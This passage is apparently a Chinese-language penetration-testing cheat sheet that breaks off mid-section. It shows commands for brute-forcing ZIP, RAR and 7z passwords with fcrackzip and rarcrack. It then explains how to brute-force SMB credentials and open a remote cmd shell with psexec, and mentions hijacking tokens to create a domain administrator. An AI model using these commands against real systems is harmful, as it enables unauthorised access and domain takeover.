 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEnycC54vFTTmVIKojjKSXGNWdsYyWj96sNpTx0OHOdOGfkXYxqT2iaiag/640?wx_fmt=png)

**压缩包爆破**
---------

**1.Fcrackzip**

```
#安装
apt-get install fcrackzip
-b   #指定模式为暴破
-c   #指定密码类型字。（a=a-z;1=0-9;!=特殊字符;-ca1!）
-u   #显示破解出来的密码
-l 5-6 #指定密码长度
-D   #使用字典
-p   #使用字符串作为初始密码文件
-threads #线程
```

```
#爆破密码为数字
fcrackzip -b -ca1 -l 1-6 -u ip.zip
#带字典爆破
fcrackzip -D -p pass.txt -u 1.zip
```

**2.rarcrack**

该软件用于暴力破解压缩文件的密码，但仅支持 RAR, ZIP, 7Z 这三种类型的压缩包  
执行命令: rarcrack 文件名 -threads 线程数 -type rar|zip|7z

```
rarcrack 123.zip --threads 10 --type zip
```

如果允许出现错误。那么可以执行 sudo apt-get install libxml2-dev libxslt-dev 进行修复。  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOKFic4mLSBRmBTA8qDFMA8WnOibn6kyy4Wl2Bia9qM7X0yWBzgDsp8vkQ/640?wx_fmt=png)

**shell 控制连接**

通过端口爆破 445 得到账号密码。没有开 3389 没法直接登录，此时借用 psexec 直接调用 cmd 登录。也可以通过 incognito 劫持 token，如果有域管理员 token 劫持 DC，创建一个域管理员出来

**1.psexec.exe**  

```
下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
```

通过得到的账号密码信息链接跳板机，通过 smb 爆破得到账号密码，如果目标没有开启 3389/23 服务无法直接登录，借助 psexec.exe 工具通过 smb 服务调用目标 cmd  

```
psexec.exe \\192.168.198.138 -u administrator -p 123456 cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEjRC4XL8DiaAx3u71HhSac9qt4BfE6gTFYGD4PcV63TT3AjjWuZ4LSww/640?wx_fmt=png)  

**2.incognito.exe 提权**  
